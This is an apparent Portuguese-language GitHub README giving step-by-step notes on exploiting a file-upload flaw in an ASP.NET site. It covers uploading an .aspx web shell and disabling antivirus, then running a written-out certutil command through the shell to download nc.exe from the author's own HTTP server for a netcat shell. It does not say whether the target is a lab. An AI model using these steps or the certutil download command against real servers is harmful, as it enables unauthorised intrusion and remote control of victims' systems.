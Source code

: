 # Depois de levantar informações especificas como o lugar ontem tem uma falha para upar arquivos e deletar , o lugar onde essee arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo tudo favoravel para subir o shell

## Contexto para subir o shell sabendo a tecnologia do site que é ASP NET eu posso ta procurando um Shell que seja ASPNET.aspx upar no servidor e acessar ele e conseguir injetar comandos 
## 1° - Procurar no google o SHell : github: shell for ASP.aspx 
## 2° - Desligar o antivirus do computador
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)
## 3° - salvar esse shell no arquivo .aspx
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)
## com ele em mãos é so subir no servidor e acessar
## acessando o local onde descobrimos no DIRSEARCH que é o magnam que faz o trabalho do banco de dados
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)
## upando arquivo
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)
## arquivo UPADO só acessa agora
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)
## acessando o arquivo 
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)
## shell.aspx subiu porem voce ainda nao tem cotrole total para navegar nos diretorios para fazer um enumeração de arquivos
## proximo passo é baixar o nc.exe e colocar em uma pasta no seu propio windons instalar o python criar uma pasta colocar o arquivo nc.exe lá dentro e dai iniciar o servidor python com o nc.exe disponivel para dowload
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)
## coloquei em uma pasta com o nome "Nova Pasta" e inciei o servidor pyhton pelo cmd do meu windons
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)
## agora para baixar usando o shell que eu subi vai ser usado o comando:
```txt
  certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

    o Certutil serve para baixar arquivos em um windons e como esta em um server http só vai ser preciso colocar a url,
    com o endereço de ip do meu computador windons e o arquivo que vai ser baixado que é o nc.exe,
    e dai ele vai salvar no users public que qualqr um tem acesso com o nome de nc.exe
```
